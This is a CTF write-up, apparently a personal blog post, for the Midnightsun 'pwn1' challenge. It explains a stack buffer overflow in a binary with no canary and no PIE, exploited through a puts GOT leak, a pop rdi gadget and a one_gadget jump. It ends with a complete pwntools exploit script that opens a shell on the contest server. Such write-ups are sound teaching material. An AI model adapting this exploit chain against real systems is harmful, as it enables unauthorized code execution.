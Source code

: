 ```yaml
---
layout: post
title:  "Midnightsun ctf writeup pwn 1"
categories: [ctf]
tags: [ctf]
---
```

This is the writeup of one of the challenge of the midnightsun ctf.
In this challenge were given a binary and a libc. Once i had executed the binary on the video appeared the written "buffer: ".
![My helpful screenshot](/assets/start.png)
And after that i could insert my buffer and try to exploit the program.
So the first thing that i did was control what kind of security measures the binary had using the utilities *rabin2* (to use this you had to install radare2) and with *checksec*.
And so with *checksec pwn1*:
![My helpful screenshot](/assets/checksec.png)


And with *rabin2 -I pwn1*:


![My helpful screenshot](/assets/rabin2.png)


It was easy to see that there were no canaries, so if i put in input in this program to much character i would overwritten the return address of the current function. The other thing that i noticed from the images below is that the binary was not PIE position indipendent executable (or pic position indipendent code) this means that the binary was always loaded in memory at a specific address. 
To sum up all of this, the vulnerability was a buffer overflow that was easy to exploit since the binary was not PIE and of course there was no canary.


To exploit the program i first leaked the value of a libc function in memory in order to find the base address of libc. So i had to overwrite the return address of the function with the correct values in order to obtain what i needed.
 To do this i searched in the binary where was the GOT in memory (in particular the address of the function *puts* but could be also another function), after that i searched the gadget *pop rdi* in order to put in *rdi* register the value of the GOT. In details i first overwritten the return address with the *pop rdi* gadget, and subsequently with the got address. To display on video i searched in the binary the address of *puts* in plt and i put this address after the GOT address, in this way i was able to write on video the leak that i needed. And with this leak i was able to calculate the address of the one gadget to get a shell. To do this i used the one_gadget utility to find in the libc where is the call to */bin/sh* than i calculated the libc base address in memory subtracting at the leak the offset of puts from the libc that was given. And in the end i summed to this base address the offset of */bin/sh* and i found the address to jump to get a shell. But before do this i had to add also the address of main in the input buffer to "restart" the program after the address of function *puts* because if had not do this the program would showed me the leak and would be crashed. So only just when the program reasked the buffer in input i could overwrite the return address with the one_gadget address.
Here's my final exploit:
{% highlight python %}
from pwn import *

#pwn1-01.play.midnightsunctf.se 10001
#pay attention to use in local you had to put your libc and your one_gadget offset
#conn = process("./pwn1") 

conn = remote("pwn1-01.play.midnightsunctf.se", 10001)

BUF = "A" * 0x40
ebp = "B" * 0x8
offset_one_gadget = 0x4f2c5
elf = ELF("./pwn1")

libc = ELF('libc.so')

puts_got = 0x00602018  
puts_plt = 0x00400550 
main = 0x00400698

pop_rdi = 0x00400783
OFFSET = "A" * 72


conn.recvuntil(": ")

conn.send(OFFSET)
conn.send(p64(pop_rdi))
conn.send(p64(puts_got))
conn.send(p64(puts_plt))
conn.sendline(p64(main))

var = conn.recvline()


leak = int(var[0:6][::-1].hex(), 16)
log.info("puts leak: "+hex(leak))

one_gadget = leak - libc.symbols['puts'] + offset_one_gadget

conn.recvuntil(": ")
log.info("one gadget a: "+ hex(one_gadget))

conn.send(OFFSET)
conn.sendline(p64(one_gadget))

conn.interactive()

{% endhighlight %}








